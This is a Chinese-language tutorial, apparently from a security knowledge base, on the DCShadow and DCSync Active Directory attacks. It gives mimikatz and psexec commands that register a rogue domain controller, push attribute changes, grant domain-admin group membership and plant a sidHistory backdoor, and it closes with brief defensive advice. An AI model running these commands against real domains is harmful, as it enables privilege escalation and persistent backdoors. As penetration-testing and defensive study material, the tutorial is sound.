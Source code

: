 # DCShadow

## 讲在前面

内网的众多漏洞当中，我们就不得不介绍DCShadow和DCSync。笔者在国内外优秀的研究员的研究基础上，对相对比较优秀的文章做一次总结，尽量言简意赅的将这两个漏洞的意思表达清楚。DCSync已经做过一篇文章的介绍，本篇文章简单回顾。

## DCShadow攻击简介 

在具备域管理员权限的前提下，攻击者可以创建伪造的域控制器，将预先设定好的对象或对象属性同步复制到正在运行的域服务器中

* 在目标AD中注册一个伪造的DC
* 使伪造的DC被其他DC认可，能够参与域复制
* 强制触发域复制，将预先设定好的对象或对象属性同步复制到其他DC中

### 举例： 

测试环境：dc机器2008r2 x64、伪装机器：win7 x64

准备条件：（两个窗口）

1、win7 system权限 \(1号窗口\)，可以利用psexec -s cmd调system会话，也可以用mimikatz运行驱动模式，确保所有线程都运行在system上  


```text
!+

!processtoken

token::whoami

```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

2. win7 域管权限 （2号窗口）

在win7 中利用psexec 调用cmd即可：

```text
psexec -u pingpig\administrator cmd.exe
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

#### 利用方式一：更改属性的描述值

```text
lsadump::dcshadow /object:CN=dc,CN=Users,DC=pingpig,DC=com /attribute:description /value:"helloworld"

执行域复制：

lsadump::dcshadow /push
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

#### 利用方式二：添加域管

```text
lsadump::dcshadow /object:CN=dc,CN=Users,DC=pingpig,DC=com /attribute:primarygroupid/value:512

执行域复制：

lsadump::dcshadow /push
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

#### 利用方式三：添加sidhistory后门

```text

sid为域管administartor的sid

lsadump::dcshadow /object:CN=dc,CN=Users,DC=pingpig,DC=com /attribute:sidhistory /value:S-1-5-21-1900941692-2128706383-2830697502-500


执行域复制：

lsadump::dcshadow /push
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

### 防御建议：

监控Configuration区中的权限更改情况

对AD配置的严格审核和更改监测

严格配置访问

### 简短小结

我们需要注意的DCShadow知识：  


DCShadow不是漏洞，而是将非法数据注入AD的一种新方法

DCSync无法做到在AD域内注入新对象，DCShadow做到了  


[Knowledge Consistency Checker（KCC，知识一致性检查）](https://technet.microsoft.com/en-us/library/cc961781.aspx?f=255&MSPPError=-2147217396)这个进程可以完成数据复制任务  


Dcshadow 的利用我们可以做很多事情，包括ldap用户的修改，添加后门（sidhistory后门， AdminSDHolder后门，acl后门等等），在碰到域防护较为严格的时候，往往能起到很好的bypass的效果。  


参考文章：

[DCShadow介绍](https://www.anquanke.com/post/id/146551#h2-3)

[DCShadow-攻击原理](https://www.anquanke.com/post/id/96704#h3-9)

[DCShadow-测试](https://zhuanlan.zhihu.com/p/33671772)

## DCSync攻击简介

在具备域管理权限的前提下，攻击者可以利用域数据同步复制发起[GetNCChanges](https://wiki.samba.org/index.php/DRSUAPI) 请求获得想要的用户口令信息，攻击对象不能是只读域控制器（RODC）

攻击流程：

* 发现域控制器以请求复制
* 使用[GetNCChanges](https://wiki.samba.org/index.php/DRSUAPI) 函数请求用户复制 
* DC将复制数据（包括密码哈希）返回给请求者

[DCSync攻击与检测](https://blog.csdn.net/Ping_Pig/article/details/108906720)  


